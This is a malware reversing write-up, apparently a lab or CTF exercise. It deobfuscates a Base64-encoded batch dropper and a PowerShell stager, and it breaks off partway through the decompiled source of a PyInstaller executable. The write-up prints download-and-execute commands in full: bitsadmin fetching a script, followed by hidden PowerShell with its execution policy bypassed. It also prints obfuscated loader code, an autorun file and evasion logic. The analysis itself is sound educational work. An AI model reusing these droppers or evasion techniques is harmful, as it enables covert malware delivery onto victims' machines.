



# Brief Introduction


Given was a [batch](https://www.techtarget.com/searchwindowsserver/definition/batch-file) file. Analysing the file suggested that the script defines several variables with obfuscated names and encoded values. It uses Base64 encoding and other forms of obfuscation to hide the actual commands being executed. The script uses PowerShell to decode Base64 encoded strings and convert them into executable commands. It then constructs and runs commands based on the decoded values.

# Variable Obfuscation

```batch
set eitg=set
%eitg% gopy=for
%eitg% hetY="tokens=* delims=" && %eitg% GhEt=in && %eitg% SADFCweFDCWQE=/f
```
Above are the variable declaration made in the script. As we can see `eitg` is declared as `set`. So every time that variable is called using `%eitg%` , it will run the command `set`.

# Main Operation

Below are the obfuscated functions that play a crucial role in the scripts. Understanding how the variable declared from the section before, we can construct a more readble functions.

```batch
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('powershell [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""%OYUIThbgrwtWCVRE%"""^)^)') do %eitg% "CVWQeFEWRFQWEd=%%#"
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('%CVWQeFEWRFQWEd% [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""%DwqeqwefWEFqwer%"""^)^)') do %eitg% "WreqwecQWEFRWE=%%#"
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%QWErfqwfecQWEDWEX%"""^)^)') do %eitg% "KIUYntyERverERF=%%#"
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%QWEcwgrtHWTFWEQaxwe%"""^)^)') do %eitg% "NbfdsvREVntySRE=%%#"
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%RTYUvERQCXergtewsr%"""^)^)') do %eitg% "iUYTbyteVERTfer=%%#"
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%NETRYverEWERCREWweq%"""^)^)') do %eitg% "QWWEcdweWERee=%%#"
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%ERTYbrtWCRWEfverwfcwer%"""^)^)') do %eitg% "QWERfcerWEDfcvtbytTYR=%%#"
```

Deobfuscated functions are as below:

```batch
for /f tokens=* delims= %%# in ('powershell [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""%OYUIThbgrwtWCVRE%"""^)^)') do set "CVWQeFEWRFQWEd=%%#"
for /f tokens=* delims= %%# in ('%CVWQeFEWRFQWEd% [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""%DwqeqwefWEFqwer%"""^)^)') do set "WreqwecQWEFRWE=%%#"
for /f tokens=* delims= %%# in ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%QWErfqwfecQWEDWEX%"""^)^)') do set "KIUYntyERverERF=%%#"
for /f tokens=* delims= %%# in ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%QWEcwgrtHWTFWEQaxwe%"""^)^)') do set "NbfdsvREVntySRE=%%#"
for /f tokens=* delims= %%# in ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%RTYUvERQCXergtewsr%"""^)^)') do set "iUYTbyteVERTfer=%%#"
for /f tokens=* delims= %%# in ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%NETRYverEWERCREWweq%"""^)^)') do set "QWWEcdweWERee=%%#"
for /f tokens=* delims= %%# in ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%ERTYbrtWCRWEfverwfcwer%"""^)^)') do set "QWERfcerWEDfcvtbytTYR=%%#"
```
Ah, much better. But there are still an encoded value we need to decode. As seen in the first line above, there was a powershell command executing a base64 conversion. The variable inside the **FromBase64String()** function points to the encoded value somewhere in script.

# Decoding Values

I tried to use **base64dump.py** but somehow it does not detect those strings as a base64 encoding.

Below are the variables and its decoded values:

```batch
# this is kinda of pointless 
FWEfvrewFWRVEwer=dG#######hpc##########yB#####pc##########yBraW5k#####Y#######SBv######Zi######Bwb2l##########ud#######Gx#####lc#########3M######K######

# Flying saucers often cross my mind when I'm high I'm trippin'
POUINTYEBRTwertf=R!!!!!!m!!!!!!!!!x5aW5n!!!!!!!IHNh!!!!!!!!!dWNl!!!!!!!!!c!!!!!!!!n!!!!!!!!!Mg!!!!!!!!!!b2Z!!!!!!!!!0ZW4gY3!!!!!!!!!J!!!!!!!vc3Mg!!!!!!!bXkgbWlu!!!!!!Z!!!!!!!!!C!!!!!!B!!!!!!3!!!!!!!!aGV!!!!!!uI!!!!!!!EknbSBoa!!!!!!!Wdo!!!!!!!!!IEk!!!!!!!!n!!!!!!!!bSB0!!!!!!cmlwcGl!!!!!!!uJ!!!!!!w!!!!!o=!!!!!

# stacy.ps1
WeTTyhRRvfer=c@@@@@@3R@@@@h@@@@@@@@@Y3k@@@ucH@@@@@@@M@@@xCg@@@==@@@@@@@

# https://raw.githubusercontent.com/Internet-2-0/file-samples/master/scripts/powershell/stacy.ps1 
VerBrtEwFCWe=a!!!!!!H!!!!!R0c!!!!!HM!!!!!!!!!6!!!!!!!!!L!!!!!y!!!!!9!!!!!y!!!!!!!!!!YXc!!!!!!!uZ2!!!!!l0aHVi!!!!!!!!!d!!!!!!!!!!X!!!!!!!!NlcmNvb!!!!!!!!!n!!!!!!!!RlbnQu!!!!!!!!!!Y29tL!!!!!!!0ludG!!!!!!!!!!Vyb!!!!!!m!!!!!!V!!!!!!0LTItM!!!!!!!C!!!!!!!9m!!!!!!a!!!!!!!W!!!!!!!!!!xl!!!!!!!!!!L!!!!!!!X!!!!!N!!!!!h!!!!!!!!bX!!!!!!!!!!B!!!!!!!s!!!!!!!!!!Z!!!!!XMvbWF!!!!!!z!!!!!!!!!!d!!!!!!!!GV!!!!!!!!!!y!!!!!!!!!!L3N!!!!!!jcm!!!!!!!!!!lwdHMvc!!!!!G!!!!!!!!!!9!!!!!!!!3ZXJzaG!!!!!!!!V!!!!!!!!!sbC9z!!!!!!!!!!d!!!!!!!GFjeS5wc!!!!!!zE!!!!!!K!!!!!!!

# [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String
WERtggbvtrWERV=W1N5c!!!!!!!!!!3!!!!!!!!!Rlb!!!!!S5UZXh0LkVuY29ka!!!!!W5!!!!!!nX!!!!!!!!!!To6!!!!!V!!!!!V!!!!!!!!RG!!!!!!!!!!O!!!!!!!!!C5HZXR!!!!!!T!!!!!!!!!!d!!!!!H!!!!!!!Jp!!!!!!!!!!b!!!!!!!!mcoW1N!!!!!!!!5!!!!!c3RlbS5D!!!!!!!!b!!!!!!!25!!!!!!!2!!!!!!ZXJ!!!!!!!0XTo6Rn!!!!!!!!!J!!!!!!!!!!v!!!!!!!!!!bUJh!!!!!!c!!!!!2!!!!!!U2!!!!!!!!!NFN!!!!!!!!!!0!!!!!!!!!cmluZw!!!!!!!!!!o=

# bitsadmin.exe /transfer
NTYerFVERHetERfewef=Y@@@@@@ml0c2Fk@@@@@@@b@@@@@@@@@WluLmV4@@@@@@@@@ZS@@@@@@A@@@@@@v@@@@@@@@@d@@@@@@@HJh@@@@@@bnNmZXI@@@@@@@@K@@@@@@@@@@

# 2795e16d0061f24c913c2602c24535cac20247c25c9c36a89d20ad4820bc4b72  groups.json
# 8cb1fe0e9a428f1a3ffa79763e9a0b58175af886ff3bf91f310f48dd8a2a638d  pretty_groups.json
BRTwercvWQEFRWE=Mjc!!!!!!!!5!!!!!!!NWUx!!!!!!Nm!!!!!!!!!!Q!!!!!wM!!!!!!!DYx!!!!!!!ZjI0!!!!!!!!Yzkx!!!!!!M2My!!!!!NjAyY!!!!!!!!zI0NTM1Y!!!!!!!!!2F!!!!!!j!!!!!!!Mj!!!!!!!!!A!!!!!!!!!!yND!!!!!!!d!!!!!!!!!j!!!!!!!Mj!!!!!!!!Vj!!!!!!!OWM!!!!!!zNmE4!!!!!!!!!!O!!!!!WQyM!!!!!!!!!!GFk!!!!!!!!!NDgy!!!!!!!!!MGJj!!!!!!!!!NGI3M!!!!!i!!!!!!A!!!!!!!!!!gZ3Jv!!!!!!dX!!!!!!!BzLmpzb2!!!!!!!!4KOG!!!!!!!!!!NiMW!!!!!Zl!!!!!!!!M!!!!!!!!!GU!!!!!!!!!5YTQ!!!!!!yOGYxY!!!!!!!!!!TN!!!!!!!!!m!!!!!!!!!!ZmE!!!!!!3O!!!!!!T!!!!!!!!!c2!!!!!!!!!M2!!!!!!U5Y!!!!!!!TBi!!!!!!!!!!NTg!!!!!!!x!!!!!N!!!!!!!!!zV!!!!!!!!!h!!!!!!Z!!!!!j!!!!!!g!!!!!!!!!4NmZmM!!!!!!!!!!2!!!!!!!!!!J!!!!!mO!!!!!TFm!!!!!!!!!!Mz!!!!!!!Ew!!!!!!Z!!!!!jQ4ZGQ!!!!!!!!!4Y!!!!!TJ!!!!!hNj!!!!!!!!!M4ZC!!!!!AgcH!!!!!!!!J!!!!!!!l!!!!!dHR5X2!!!!!!!!!dyb3Vwcy!!!!!!!!!5qc29u!!!!!!!Cg!!!!!!!!!=!!!!!!!!!=!!!!!!!

# -NoP -wiNdowSTYLE hiddeN -ExEcuTioNPolicy BypAss -CoMmAND
RTYbrtgVEWRqqwer=LU5vUC@@@@@@At@@@@@@@@@d@@@@@2l@@@@@@@@@@O@@@@@@@ZG93@@@@@@U@@@@@@@@1@@@@@RZTE
```

# Reconstructing Full Command

The very last line of the script suggest that the full command being constructed and executed.

```batch
%QWERfcerWEDfcvtbytTYR% "%iUYTbyteVERTfer%" %KIUYntyERverERF% %cd%\%NbfdsvREVntySRE% && %CVWQeFEWRFQWEd% %QWWEcdweWERee% "%cd%\%NbfdsvREVntySRE%"
```

Using the same techniques from the sections before to reconstruct the command executed by this batch file.

```batch
bitsadmin.exe /transfer "f48920e537d9c4e0e795971da3646444190eecd24d719303becdd9a13bfa5810" https://raw.githubusercontent.com/Internet-2-0/file-samples/master/scripts/powershell/stacy.ps1 C:\path\to\stacy.ps1 && powershell.exe -NoP -wiNdowSTYLE hiddeN -ExEcuTioNPolicy BypAss -CoMmAND "C:\path\to\stacy.ps1"
```

As seen above, the command uses **bitsadmin** and **powershell** to download and execute a powershell script named **stacy.ps1**

Below are the command breakdown.

- **bitsadmin.exe /transfer:**
  - **bitsadmin.exe** is a command-line tool used to create, manage, and monitor download and upload jobs. It is often used to perform file transfers in the background.
  - **/transfer** is a parameter used to create a new transfer job. In this context, it’s downloading a file.

- **"f48920e537d9c4e0e795971da3646444190eecd24d719303becdd9a13bfa5810":**
  - This is the job name or identifier for the bitsadmin transfer job. It’s a unique identifier for this particular download job.

- **https://raw.githubusercontent.com/Internet-2-0/file-samples/master/scripts/powershell/stacy.ps1:**
  - This is the URL from which the file (stacy.ps1) will be downloaded. The file is a PowerShell script hosted on GitHub.

- **C:\path\to\stacy.ps1:**
  - This specifies the local path where the file will be saved. In this case, it’s attempting to save it to the current working directory with the name stacy.ps1.

- **&&:**
  - This is a conditional operator in batch scripts. It runs the command following && only if the preceding command (bitsadmin.exe) succeeds.

- **powershell.exe -NoP -wiNdowSTYLE hiddeN -ExEcuTioNPolicy BypAss -CoMmAND "C:\path\to\stacy.ps1":**
  - This is the PowerShell command that will be executed if the file download is successful.

  **Flags and Parameters:**
  - **-NoP (or -NoProfile):**
    - Runs PowerShell without loading the profile scripts, which can speed up execution and reduce potential interference.
  - **-wiNdowSTYLE hiddeN:**
    - Sets the PowerShell window to be hidden. This makes the execution less noticeable to users.
  - **-ExEcuTioNPolicy BypAss:**
    - Bypasses the execution policy. By default, PowerShell restricts script execution, but this flag allows scripts to run regardless of policy settings.
  - **-CoMmAND C:\path\to\stacy.ps1:** 
    - Specifies the command to run, which is to execute the PowerShell script located at C:\path\to\stacy.ps1.

# Reversing stacy.ps1

Retrieve the powershell script from the url founded.

```ps1
function llIIllIIllIIllIIllIIllIIllIIllIIllII($vP9MZDGjnoJ) {
    $Mohfy6VuAN25tmCcilWJ = "\x90";
    $xgWjzvyhbOVsU6La79 = $vP9MZDGjnoJ.replace($Mohfy6VuAN25tmCcilWJ, " ") -split " ";
    $Mt = $xgWjzvyhbOVsU6La79.clone();
    [array]::reverse($Mt);
    $MXfstqmCoh2iTbaGnwr0j4Ny = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($Mt));
    return $MXfstqmCoh2iTbaGnwr0j4Ny; 
}

function llIIllIIllIIllIIIIIIllIIllIlllllllII($7lGQcpZoLf6Yk2CPEezSv) {
    $6cZyHm8aYQX=-join ((0x41..0x5a) + (0x61..0x7a) | Get-Random -Count 20 | % {[char]$_});
    return "$6cZyHm8aYQX$7lGQcpZoLf6Yk2CPEezSv" 
}
$hg34RNfykz5XdxBn287mU9=llIIllIIllIIllIIllIIllIIllIIllIIllII("=\x90A\x90X\x90a\x906\x905\x90S\x90b\x90v\x901\x902\x90c\x905\x90N\x90W\x90Y\x900\x90N\x903\x90L\x90j\x90N\x90X\x90a\x90t\x909\x90i\x90c\x90l\x90R\x903\x90c\x90h\x901\x902\x90L\x903\x90F\x90m\x90c\x90v\x90M\x90X\x90Z\x90s\x90B\x90X\x90b\x90h\x90N\x90X\x90L\x90l\x90x\x90W\x90a\x90m\x909\x90C\x90M\x90t\x90I\x90T\x90L\x900\x90V\x90m\x90b\x90y\x90V\x90G\x90d\x90u\x90l\x900\x90L\x90t\x909\x902\x90Y\x90u\x90I\x90W\x90d\x90o\x90R\x90X\x90a\x90n\x909\x90y\x90L\x906\x90M\x90H\x90c\x900\x90R\x90H\x90a\x90");
$tQsoNjk=llIIllIIllIIllIIllIIllIIllIIllIIllII("l\x90h\x90X\x90Z\x90u\x90w\x90G\x90b\x90l\x90h\x902\x90c\x90y\x90V\x902\x90d\x90v\x90B\x90H\x90X\x90w\x904\x90S\x90M\x902\x90x\x90F\x90b\x90s\x90V\x90G\x90a\x90T\x90J\x90X\x90Z\x903\x909\x90G\x90U\x90z\x90d\x903\x90b\x90k\x905\x90W\x90a\x90X\x90x\x90l\x90M\x90z\x900\x90W\x90Z\x900\x90N\x90X\x90e\x90T\x90x\x901\x90c\x903\x909\x90G\x90Z\x90u\x90l\x902\x90V\x90c\x90p\x90z\x90Q");
$RXNPxpB=llIIllIIllIIllIIIIIIllIIllIlllllllII(".zip");
$CcAn4K8e=llIIllIIllIIllIIIIIIllIIllIlllllllII("");
Invoke-WebRequest $hg34RNfykz5XdxBn287mU9 -OutFile $RXNPxpB;Expand-Archive $RXNPxpB -DestinationPath $CcAn4K8e; 
& $tQsoNjk -exECUtIonPOLicY bYpAsS stArT-ProcEss -FilepaTH ".\$CcAn4K8e\stacy.exe";
```

Deobfuscate it to make it more readable.

```ps1
function Decode-Base64String($encodedString) {
    $paddingCharacter = "\x90";
    $cleanedString = $encodedString.replace($paddingCharacter, " ") -split " ";
    $reversedArray = $cleanedString.clone();
    [array]::reverse($reversedArray);
    $decodedString = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($reversedArray));
    return $decodedString;
}

function Generate-RandomString($inputString) {
    $randomString = -join ((0x41..0x5a) + (0x61..0x7a) | Get-Random -Count 20 | % {[char]$_});
    return "$randomString$inputString";
}

$downloadUrl = Decode-Base64String("=\x90A\x90X\x90a\x906\x905\x90S\x90b\x90v\x901\x902\x90c\x905\x90N\x90W\x90Y\x900\x90N\x903\x90L\x90j\x90N\x90X\x90a\x90t\x909\x90i\x90c\x90l\x90R\x903\x90c\x90h\x901\x902\x90L\x903\x90F\x90m\x90c\x90v\x90M\x90X\x90Z\x90s\x90B\x90X\x90b\x90h\x90N\x90X\x90L\x90l\x90x\x90W\x90a\x90m\x909\x90C\x90M\x90t\x90I\x90T\x90L\x900\x90V\x90m\x90b\x90y\x90V\x90G\x90d\x90u\x90l\x900\x90L\x90t\x909\x902\x90Y\x90u\x90I\x90W\x90d\x90o\x90R\x90X\x90a\x90n\x909\x90y\x90L\x906\x90M\x90H\x90c\x900\x90R\x90H\x90a\x90");
$executablePath = Decode-Base64String("l\x90h\x90X\x90Z\x90u\x90w\x90G\x90b\x90l\x90h\x902\x90c\x90y\x90V\x902\x90d\x90v\x90B\x90H\x90X\x90w\x904\x90S\x90M\x902\x90x\x90F\x90b\x90s\x90V\x90G\x90a\x90T\x90J\x90X\x90Z\x903\x909\x90G\x90U\x90z\x90d\x903\x90b\x90k\x905\x90W\x90a\x90X\x90x\x90l\x90M\x90z\x900\x90W\x90Z\x900\x90N\x90X\x90e\x90T\x90x\x901\x90c\x903\x909\x90G\x90Z\x90u\x90l\x902\x90V\x90c\x90p\x90z\x90Q");
$zipFileName = Generate-RandomString(".zip");
$outputFolderName = Generate-RandomString("");
Invoke-WebRequest $downloadUrl -OutFile $zipFileName;
Expand-Archive $zipFileName -DestinationPath $outputFolderName;
& $executablePath -ExecutionPolicy Bypass Start-Process -FilePath ".\$outputFolderName\stacy.exe";
```
**Decode-Base64String()** function operates as follow:
1. replace '\x90' character with an empty space
2. split the strings
3. reverse it
4. convert from base64

Encoded string in **downloadUrl** variable:
```
=\x90A\x90X\x90a\x906\x905\x90S\x90b\x90v\x901\x902\x90c\x905\x90N\x90W\x90Y\x900\x90N\x903\x90L\x90j\x90N\x90X\x90a\x90t\x909\x90i\x90c\x90l\x90R\x903\x90c\x90h\x901\x902\x90L\x903\x90F\x90m\x90c\x90v\x90M\x90X\x90Z\x90s\x90B\x90X\x90b\x90h\x90N\x90X\x90L\x90l\x90x\x90W\x90a\x90m\x909\x90C\x90M\x90t\x90I\x90T\x90L\x900\x90V\x90m\x90b\x90y\x90V\x90G\x90d\x90u\x90l\x900\x90L\x90t\x909\x902\x90Y\x90u\x90I\x90W\x90d\x90o\x90R\x90X\x90a\x90n\x909\x90y\x90L\x906\x90M\x90H\x90c\x900\x90R\x90H\x90a\x90
```
Decoded string in **downloadUrl** variable:
```
https://github.com/Internet-2-0/file-samples/raw/master/misc/stacysmom.zip
```
Encoded string in **executablePath** variable:
```
l\x90h\x90X\x90Z\x90u\x90w\x90G\x90b\x90l\x90h\x902\x90c\x90y\x90V\x902\x90d\x90v\x90B\x90H\x90X\x90w\x904\x90S\x90M\x902\x90x\x90F\x90b\x90s\x90V\x90G\x90a\x90T\x90J\x90X\x90Z\x903\x909\x90G\x90U\x90z\x90d\x903\x90b\x90k\x905\x90W\x90a\x90X\x90x\x90l\x90M\x90z\x900\x90W\x90Z\x900\x90N\x90X\x90e\x90T\x90x\x901\x90c\x903\x909\x90G\x90Z\x90u\x90l\x902\x90V\x90c\x90p\x90z\x90Q
```
Decoded string in executablePath variable:
```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
```
- **Line 19**
  - The script will then download **stacysmom.zip** and rename it based on whatever the randomly generated output from **Generate-RandomString()** function with **.zip** extension.
- **Line 20**
  - It then extracts the zip file and outputed it to another folder which again generated randomly using **Generate-RandomString()** function.

- **Line 21**
  - Lastly, the file will be excuted with **bypassed execution policy**
  - `\path\to\powershell.exe -ExecutionPolicy Bypass Start-Process -FilePath ".\path\to\stacy.exe"`


# Analysing stacysmom.zip

Unzipping the file presents us with several files.

```
.
├── .fi
│   ├── ch_1.lnk
│   ├── ed_9.lnk
│   └── ff_3.lnk
├── README.txt
├── autorun.ini
├── cliCk ME fOR inSTrucTioNs.pdf.lnk
├── just_m_logo.ico
├── stacy.exe
└── stacysmom.zip
```
Below are some of the content and properties of those files.

```
ch_1.lnk target properties:
"C:\Program Files\Google\Chrome\Application\chrome.exe" "https://link.malcore.io"

ed_9.lnk target properties:
"C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" "https://link.malcore.io"

ff_3.lnk target properties:
"C:\Program Files\Mozilla Firefox\firefox.exe" "https://link.malcore.io"

autorun.ini content:
[autorun]
action=Stacys mom
icon=just_m_logo.ico
open=stacy.exe
```

The most interesting one is obviously **stacy.exe**
```
$ file stacy.exe
stacy.exe: PE32+ executable (console) x86-64, for MS Windows, 6 sections
```

# Reversing stacy.exe

Using tool like **Detect It Easy (DIE)** can tell us how the executable being built.

Here, it tells us that the executable was compressed using ZLIB.



Looking for strings inside the executable shows us that python is used to compile the program.



Extract the executables using **[pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor)** to get the **.pyc** from it.

```
$ pyinstxtractor stacy.exe
[+] Processing stacy.exe
[+] Pyinstaller version: 2.1+
[+] Python version: 3.9
[+] Length of package: 5877800 bytes
[+] Found 59 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: stacy.pyc
[!] Warning: This script is running in a different Python version than the one used to build the executable.
[!] Please run this script in Python 3.9 to prevent extraction errors during unmarshalling
[!] Skipping pyz extraction
[+] Successfully extracted pyinstaller archive: stacy.exe

You can now use a python decompiler on the pyc files within the extracted directory
```

Search for the most interesting file here which is **stacy.pyc**

Here, the file is not readable enough becuase it is still in a **binary**.

```
$ file stacy.pyc
stacy.pyc: Byte-compiled Python module for CPython 3.9, timestamp-based, .py timestamp: Thu Jan  1 00:00:00 1970 UTC, .py size: 0 bytes
```

To convert **.pyc** to source code we can use tools like **[pycdc](https://github.com/zrax/pycdc)**. Below is the full source code.

```py
# Source Generated with Decompyle++
# File: stacy.pyc (Python 3.9)

import os
import sys
import time
import string
import random
import platform
import base64
CCCcccCCccCCCccccCCCcccCCC = random
ccCccCccCCccccCCcccCCCcccc = CCCcccCCccCCCccccCCCcccCCC.SystemRandom()
ccCCccCCCCcCCcccCCCccCCCcc = ccCccCccCCccccCCcccCCCcccc.randint

def stacy_do_something():
    aAAaaAaAAaaAAAAAAAaaAA = string
    aAAaaAaaAaaAAAaaAAaaAA = ''
    aAAaaAaAAaaAaaaaAAaaAA = ccCCccCCCCcCCcccCCCccCCCcc(1, 15)
    aAAaaaaAAaaAAAAAAAaaAA = range
    for _ in aAAaaaaAAaaAAAAAAAaaAA(aAAaaAaAAaaAaaaaAAaaAA):
        aAAaaAaaAaaAAAaaAAaaAA += aAAaaAaAAaaAAAAAAAaaAA.ascii_letters
    return aAAaaAaaAaaAAAaaAAaaAA


def stacy_get_me_a_sandwich():
    qQqqQQqqqQQQqqQQQQQQ = ccCCccCCCCcCCcccCCCccCCCcc(1, 20)
    qQqqQQqqqQQQqqqqqQQQ = []
    qQqqQqqqqQQQqQQQqQQQ = random
    qQqQQqqqqQQQqQqqqQQQ = sys
    for qQqqQQQQQQQQqQqqqQQQ in range(qQqqQQqqqQQQqqQQQQQQ):
        qQqqQQqqqQQQqQQQqQQQ = stacy_do_something()
        qQqqQQqqqQQQqqqqqQQQ.insert(qQqqQQQQQQQQqQqqqQQQ, qQqqQQqqqQQQqQQQqQQQ)
    if len(qQqqQQqqqQQQqqqqqQQQ) > ccCCccCCCCcCCcccCCCccCCCcc(1, 4):
        if not None((lambda .0 = None: for QQqqQQqQQqQQQqQQQqQQ in .0:
QQqqQQqQQqQQQqQQQqQQ in qQqQQqqqqQQQqQqqqQQQ.path)(qQqqQQqqqQQQqqqqqQQQ)):
            if qQqqQqqqqQQQqQQQqQQQ.SystemRandom().randint(99, 100) < 1:
                qQqQQqqqqQQQqQqqqQQQ.path.insert(0, qQqqQQqqqQQQqqqqqQQQ[-1])
                qqQQQqqqQQqqqqqqQQQq = qQqQQqqqqQQQqQqqqQQQ.path
            else:
                qqQQQqqqQQqqqqqqQQQq = qQqQQqqqqQQQqQqqqQQQ.path
        else:
            qqQQQqqqQQqqqqqqQQQq = qQqQQqqqqQQQqQqqqQQQ.path
    else:
        qqQQQqqqQQqqqqqqQQQq = qQqQQqqqqQQQqQqqqQQQ.path
    return qqQQQqqqQQqqqqqqQQQq


def stacy_make_int(uUUuuUUUuuuUUuuuuUUUU, uUUuuUuUuUuUUuuuuUUUU):
    return ccCCccCCCCcCCcccCCCccCCCcc(uUUuuUUUuuuUUuuuuUUUU, uUUuuUuUuUuUUuuuuUUUU)


def stacy_shut_up(oOoOoOoOoOoOoOoO, oOoOoOoooOoOoOOO = (False, True)):
    oOoOoOoooOoooOOO = time
    oOoOOOoooOoooOOO = oOoOoOoooOoooOOO.sleep
    if not oOoOoOoooOoOoOOO and oOoOoOoOoOoOoOoO:
        oOOOoOoooOoOoOOO = stacy_make_int(1, 13)
    elif oOoOoOoooOoOoOOO and oOoOoOoOoOoOoOoO:
        oOOOoOoooOoOoOOO = stacy_make_int(1, 4)
    elif oOoOoOoOoOoOoOoO and oOoOoOoooOoOoOOO:
        oOOOoOoooOoOOOOO = stacy_make_int(1, 4)
        oOoooOoooOoOOOOO = stacy_make_int(1, 13)
        oOOOoOoooOoOoOOO = oOOOoOoooOoOOOOO + oOoooOoooOoOOOOO
    else:
        oOOOoOoooOoOoOOO = stacy_make_int(1, 4)
    oOoOOOoooOoooOOO(oOOOoOoooOoOoOOO)
    oOOOOOOooOoOoOOO = stacy_get_me_a_sandwich()
    return oOOOOOOooOoOoOOO


def should_stacy_shut_up():
    iIiIIiIIiiiIIii = stacy_make_int(1, 5) < 3
    if iIiIIiIIiiiIIii:
        iIiIIiIIiiiiIii = stacy_make_int(1, 4) > 2
        iIIIIiIIiiiiIii = stacy_make_int(1, 10) < 5
        stacy_shut_up(iIIIIiIIiiiiIii, iIiIIiIIiiiiIii, **('oOoOoOoooOoOoOOO', 'oOoOoOoOoOoOoOoO'))


def is_stacy_in_the_right_spot():
    should_stacy_shut_up()
    eEEeeeeeeeEEEEEeeeeE = 'win'
    eEEeeEEeeeEEEEEeeeeE = platform.platform()
    EEEEeeEeeeEEEEEeeeeE = True
    EEEEeeEEEeEEEEEeeeeE = False
    if eEEeeeeeeeEEEEEeeeeE in eEEeeEEeeeEEEEEeeeeE.lower():
        return EEEEeeEeeeEEEEEeeeeE


def stacy_dont_stay():
    ccCCCCcccCCCccccCCccc = print
    ccCCCCcccCCCccccCCccc('MAYBE YOU SHOULD RUN THIS ON WINDOWS?')


def stacy_find_it():
Unsupported opcode: JUMP_IF_NOT_EXC_MATCH
    should_stacy_shut_up()
    bbBBbbBBbbbBBBBBBbbbbb = os
    bbbBBbbbbbbBBBBbbbbbbB = bbBBbbBBbbbBBBBBBbbbbb.path
    bbbBBbBBBbbBBBBbbbbbbB = bbbBBbbbbbbBBBBbbbbbbB.sep
